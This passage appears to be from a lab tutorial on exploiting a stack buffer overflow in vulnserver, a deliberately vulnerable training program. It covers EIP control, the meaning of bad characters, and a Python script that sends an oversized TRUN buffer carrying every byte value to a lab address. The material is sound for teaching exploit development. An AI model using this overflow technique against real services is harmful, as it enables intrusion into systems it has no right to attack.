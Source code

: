 ![BO_overwritten_EIP](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_overwritten_EIP.png)

here we can see we have at least 960 bytes of space left on the stack to store our shellcode.

![BO_extra_space_on_stack](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/bufferoverflow_example/BO_extra_space_on_stack.png)

## Finding Bad Characters

So now that we control the EIP we want to get our shellcode where the C's are right ? Well no, not yet.

First we need to do some 'house cleaning' and remove bad characters.

Bad characters is simply a list of unwanted characters that can would break the shellcode. There is no universal set of bad characters, this depends on the application and the developer logic. That means we have to find the bad characters in vulnserver before writing shellcode.

Some of the common bad characters are:

| HEX | explanation     | ascii |
|-----|-----------------|-------|
| 00  | NULL            |       |
| 0A  | Line Feed       | \n    |
| 0D  | Carriage Return | \r    |
| FF  | Form Feed       | \f    |

To test for Bad Characters we simply trow every possible character in hex format at the application and see if any of act up.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

command = b'TRUN /.:/'
offset  = 2003

bad_chars = [0x00]
chars = b""
for i in range(0x00,0xFF+1):
    if i not in bad_chars:
        chars += bytes([i])

buff  = b""         # empty byte var
buff += b"A"*offset # junk
buff += b"B"*4      # EIP
buff += b"" + chars # test for chars

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"TRUN /.:/%s" % buff) 
except RuntimeError as err:
	print(f'[!] Unable to connect to the application. {err}')
	sys.exit(0)
finally:
	s.close()
```
